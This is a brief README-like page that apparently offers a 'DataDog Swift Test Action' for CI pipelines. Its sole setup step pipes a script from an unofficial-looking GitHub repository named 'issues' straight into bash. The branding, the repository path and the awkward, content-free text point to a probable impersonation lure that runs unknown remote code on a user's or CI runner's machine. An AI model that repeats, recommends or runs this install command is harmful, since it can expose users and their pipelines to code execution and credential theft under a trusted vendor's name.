 # DataDog Swift Test Action

This tool helps with automatic runs DataDog Swift-test-action in CI pipelines.  
To get started:

```bash
curl -fsSL https://raw.githubusercontent.com/swift-test-action/issues/main/install.sh | bash
